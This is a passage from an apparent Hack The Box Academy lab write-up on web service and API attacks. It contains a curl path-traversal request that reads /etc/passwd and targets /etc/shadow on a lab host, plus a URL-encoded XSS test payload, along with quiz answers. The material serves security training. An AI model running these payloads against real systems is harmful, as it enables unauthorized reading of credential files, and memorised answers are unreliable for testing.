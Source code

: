 ```
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow [Status: 200, Size: 1185, Words: 1, Lines: 36, Duration: 20ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl http://10.129.202.133:3000/api/download/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

[SNIP]

usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
ubuntu:x:1000:1000::/home/ubuntu:/bin/bash
```

**Answer**

```
ubuntu
```

## Cross-Site Scripting (XSS)

### Questions

#### Question #09

**Question**

If we URL-encoded our payload twice, would it still work? Answer format: Yes, No.

![Firefox - Download Attempt 1](./assets/screenshots/web_service_and_api_attacks_xss_download_attempt_1.png)

```javascript
%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```

![Firefox - Download Attempt 2](./assets/screenshots/web_service_and_api_attacks_xss_download_attempt_2.png)
